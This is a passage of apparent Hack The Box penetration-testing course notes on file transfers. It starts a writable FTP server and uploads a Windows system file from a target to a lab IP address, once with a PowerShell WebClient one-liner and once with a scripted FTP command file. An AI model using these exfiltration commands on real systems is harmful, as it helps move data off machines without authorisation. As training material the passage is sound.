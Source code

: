{% code fullWidth="true" %}
```bash
mrroboteLiot@htb[/htb]$ sudo python3 -m pyftpdlib --port 21 --write
```
{% endcode %}

Now let's use the PowerShell upload function to upload a file to our FTP Server.

<mark style="color:orange;">**PowerShell Upload File**</mark>

{% code overflow="wrap" fullWidth="true" %}
```powershell
PS C:\htb> (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```
{% endcode %}

<mark style="color:orange;">**Create a Command File for the FTP Client to Upload a File**</mark>

{% code fullWidth="true" %}
```powershell
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128

Log in with USER and PASS first.


ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```
{% endcode %}
